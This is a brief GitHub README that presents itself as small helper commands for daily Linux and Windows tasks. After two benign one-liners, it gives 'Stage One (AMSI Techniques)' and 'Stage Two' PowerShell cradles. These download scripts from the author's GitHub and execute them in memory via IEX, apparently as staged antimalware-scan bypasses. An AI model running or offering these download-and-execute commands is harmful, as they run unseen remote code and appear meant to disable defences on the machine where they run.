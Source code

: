 ![alt text](https://github.com/HeeresS/Small-Code/blob/main/4a5d13b5f79a46b2a78a382da632d97d.png?raw=true)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1'); Invoke-StageTwo
~~~

